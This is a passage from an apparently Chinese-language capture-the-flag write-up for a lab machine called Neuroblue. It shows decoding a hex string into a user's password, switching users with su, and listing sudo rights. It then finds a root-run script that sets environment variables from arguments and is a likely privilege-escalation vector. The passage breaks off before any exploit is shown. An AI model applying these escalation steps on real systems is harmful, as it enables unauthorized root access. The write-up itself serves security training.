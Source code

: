 * **解码凭据:** 使用工具（如 CyberChef 或在线转换器）将十六进制解码为 ASCII。

  ![Hex to ASCII conversion](https://7r1umphk.github.io/image/20250501142514282.png)

  解码结果为：`welcome:fd869f669309a77cdd`。这是 `welcome` 用户的凭据。

### 4.2. 切换用户 (`www-data` -> `welcome`)

使用获取到的凭据切换到 `welcome` 用户。

```bash
www-data@Neuroblue:/home/welcome$ su welcome
Password: 
welcome@Neuroblue:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功切换到 `welcome` 用户。

### 4.3. 以 `welcome` 身份进行信息收集 (寻找提权向量)

检查 `welcome` 用户的 `sudo` 权限。

```bash
welcome@Neuroblue:/tmp$ sudo -l
Matching Defaults entries for welcome on Neuroblue:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on Neuroblue:
    (root) NOPASSWD: /opt/export # <-- 允许以 root 无密码执行 /opt/export
```

同时，查看 `/opt/export` 脚本的内容和权限：

```bash
welcome@Neuroblue:/tmp$ cat /opt/export
#!/bin/bash

if [ -z $1 ] ;then
        echo "This is VMBreaker export program."
        /usr/local/sbin/VMBreaker
        exit 1
fi

export "$1"="$2" # <-- 关键：使用参数设置环境变量
export "$3"="$4"
export "$5"="$6"
export "$7"="$8"
/usr/local/sbin/VMBreaker # <-- 最后执行另一个程序

welcome@Neuroblue:/tmp$ ls -al /opt/export 
-rwxr-xr-x 1 root root 207 Apr 30 08:55 /opt/export
```

**关键发现:**
